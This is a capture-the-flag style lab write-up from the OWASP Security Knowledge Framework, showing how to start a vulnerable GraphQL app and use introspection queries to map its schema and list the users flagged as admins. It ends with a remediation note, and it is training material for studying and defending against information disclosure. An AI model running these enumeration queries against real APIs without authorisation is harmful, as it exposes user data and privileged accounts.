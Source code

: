 # KBID 285 - GraphQL introspections

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-introspections
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-introspections
```

Or alternatively build yourself! 

```sh
docker build . -t graphql/introspections && docker run -ti -p 5000:5000 graphql/introspections
```

The docker should be up in no time and we should now be able to browse the application on `http://0.0.0.0:5000/`


{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to defev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)


## Reconnaissance 

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](.gitbook/assets/graphql-introspection1.png)


## Exploitation 

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported. 


Let' use the `GraphiQL` UI to send queries to the backend and discover what is available. 

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `UserObject` one. If we build a more complex query we can ask for more information, exploring every field available. Let's send the following:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```
In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "uuid",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "isAdmin",
          "type": {
            "name": "Boolean",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "posts",
          "type": {
            "name": "PostObjectConnection",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```
> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application. 
 

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
query availableQueries {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

That will give us the `allUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
  allUsers {
    edges {
      node {
        username
        isAdmin
      }
    }
  }
}

```

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.


## Additional resources